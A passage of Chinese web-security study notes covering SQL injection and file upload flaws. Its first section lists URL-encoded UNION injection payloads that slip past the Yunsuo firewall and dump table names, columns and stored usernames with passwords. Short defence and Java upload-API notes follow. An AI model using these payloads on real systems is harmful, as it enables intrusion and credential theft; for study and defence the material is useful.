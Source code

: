 
### 绕过云锁

> ?id=-1%20union/*!99999aaaa*/select%201,2,3
>
> ?id=-1%20union/*!99999aaaa*/select%201,database/*!99999aaaa*/(),3	database被过滤
>
> ?id=-1%20union/*!99999aaaa*/select%20--1,(select%20group_concat(table_name)from%20information_schema.tables),3	select... from被过滤
>
> ?id=-1%20union/*!99999aaaa*/select%20--1,(select%20group_concat(table_name)from%20information_schema.tables%20where%20table_schema=database()),3	爆表名
>
> ?id=111%20union/*!99999aaaa*/select%20--1,(select%20group_concat(column_name)from%20information_schema.columns%20where%20table_schema=database()%20and%20table_name=%27users%27),3	爆字段
>
> ?id=-1%20union/*!99999aaaa*/select%20--1,(select%20group_concat(concat(username,%27~%27,password))from%20security.users),3	查数据

## SQL注入防御

- sql预编译
- 后端服务对接受的参数进行合法性验证，如匹配特定的参数类型
- 严格过滤SQL语句中的关键字和特殊符号

# 文件上传漏洞

## 利用前提

- 参数可控：文件名，文件内容，[文件路径]
- 上传文件位于服务器可解析脚本的web目录
- 可直接或间接获取上传文件的绝对路径或相对路径

## 文件上传代码

### 文件写入

Java Native

- FileOutputStream
- FileInputStream
- outputStream.write

SpringBoot

uploadFile.transferTo

### 文件解压缩

Java Native
